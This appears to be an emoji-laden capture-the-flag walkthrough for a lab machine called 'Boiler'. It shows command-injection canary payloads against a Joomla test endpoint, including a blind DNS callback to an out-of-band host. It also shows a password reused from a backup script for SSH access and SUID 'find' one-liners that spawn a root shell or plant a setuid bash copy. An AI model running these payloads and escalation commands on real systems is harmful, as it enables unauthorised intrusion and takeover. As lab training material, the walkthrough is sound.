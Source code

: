 # Boiler CTF — Walkthrough & Learning Notes (human-style) 🚀

> **Goal**: be extremely educational while keeping the human touch — emojis, side-notes, and gentle explanations.

---

## 🗺️ Scope & Target

- **Host**: `10.201.33.188`
- **Observed services**
  - **HTTP (Joomla)** — `/joomla/` and `/joomla/administrator/`
  - **SSH** — custom port `55007`
  - **Webmin/MiniServ** — `10000/tcp` → `MiniServ/1.930` (self-signed TLS)

---

## 🔎 Recon

```bash
nmap -sV -p 80,10000,55007 10.201.33.188
```
- `10000/tcp open  http  MiniServ 1.930 (Webmin httpd)`
- Joomla front-end & admin backend reachable under `/joomla/`

---

## 🤖 robots.txt → hidden path + token

Paths:
```
/yellow /not /a+rabbit /hole /or /is /it
/tmp /.ssh
```
Numbers:
```
079 084 108 105 ... 081
```
Decode:
```bash
echo '079 084 ... 081' | awk '{for(i=1;i<=NF;i++) printf "%c",$i}' | base64 -d
# -> 99b0660cd95adea327c54182baa51584
```
Follow the “rabbit hole” (URL-encode `+` → `%2B`):
```
/yellow/not/a%2Brabbit/hole/or/is/it/
```

---

## 🧾 DeepPaste → SSIDs/PSKs

Examples:
- `HIROSAKI_Free_W1-F1 : H_Free934!`
- `DKIF-G : Fsdf324T96`

> **BSSID ≠ password**. BSSID is a MAC like `aa:bb:cc:dd:ee:ff`. Use wardriving DBs or `*.netxml` logs to get BSSID.

---

## 🧪 Command Injection (OSCI, CWE-78; OWASP A03:2021) ⭐

Endpoint:
```
/joomla/_test/index.php?plot=LINUX
```
Why `plot=ls` fails but `plot=|ls -la` works:
```php
system("gnuplot -e set term $plot"); // shell metacharacters break out
```
First-wave canaries (URL-encode if blocked):
```
;id |id &&id ||id %0aid `id` $(id)
```
Blind:
```
;sleep 5 ;nslookup TOKEN.oast.site
```

---

## 🔐 Creds pivot — backup.sh gift 🎁

Password in comment:
```
# superduperp@$$no1knows
```
Use for `stoner`:
```bash
su - stoner
# or
ssh -p 55007 stoner@10.201.33.188
```

---

## 🧗 Priv-Esc with SUID find → Root 🧨

SUID:
```
-r-sr-xr-x 1 root root ... /usr/bin/find
```
Root shell:
```bash
/usr/bin/find . -maxdepth 0 -exec /bin/bash -p \; -quit
```
Alt (if `bash -p` blocked):
```bash
/usr/bin/find . -maxdepth 0 -exec sh -c 'cp /bin/bash /tmp/rbash && chmod u+s /tmp/rbash' \; -quit
/tmp/rbash -p
```

---

## 🔐 Webmin TLS (Firefox lab bypass)

- Use IP: `https://10.201.33.188:10000/`
- Add Exception (Certificates → Servers → Add Exception)
- `about:config` → `browser.xul.error_pages.expert_bad_cert=true`
- Chrome/Chromium: type `thisisunsafe`

---

## 🧠 Reusable lessons (checklist)

- Probe OSCI with `;|&&||%0a` canaries; switch to time/DNS/file for blind.
- Robots.txt is a *map*, not a lock.
- SUID → check GTFOBins (find, tar, vim/less, etc.).
- SSID/PSK ≠ BSSID.

> You did great. Keep the YAML cheat-sheet handy for future rooms. ✨
